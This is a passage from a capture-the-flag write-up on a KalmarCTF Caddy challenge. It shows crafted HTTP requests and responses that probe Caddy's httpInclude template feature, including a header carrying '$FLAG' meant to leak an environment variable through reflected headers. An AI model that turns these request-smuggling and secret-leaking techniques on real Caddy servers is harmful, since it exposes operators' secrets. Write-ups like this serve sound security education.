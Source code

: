 That's right! So now we have a way to send requests to the server from the server. Let's try to see what headers does the server use for `httpInclude` requests:

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 89
Date: Sat, 15 Mar 2025 13:12:06 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "1"
  ]
}
```

After reading [Caddy source code](https://github.com/caddyserver/caddy/) I checked that `Caddy-Templates-Include` header is just a check for recursive requests limit, that just fails the request if it reaches 3.

Regarding the last check:

```
@denied2 `1 == 1`
```

it seems that it's not bypassable in the `/flag` route. Let's see if we can somehow include `FLAG` environment variable in the response of `/fetch/headers` as it displays our headers in the caddy `httpInclude` directive.

Request:

```
GET /fetch/headers HTTP/2
Host: private.caddy.chal-kalmarc.tf
Caddy-Templates-Include: 1
My-Header: $FLAG

```

Response:

```
HTTP/2 200 OK
Alt-Svc: h3=":443"; ma=2592000
Content-Type: text/plain; charset=utf-8
Server: Caddy
Content-Length: 123
Date: Sat, 15 Mar 2025 13:15:47 GMT

{
  "Accept-Encoding": [
    "identity"
  ],
  "Caddy-Templates-Include": [
    "2"
```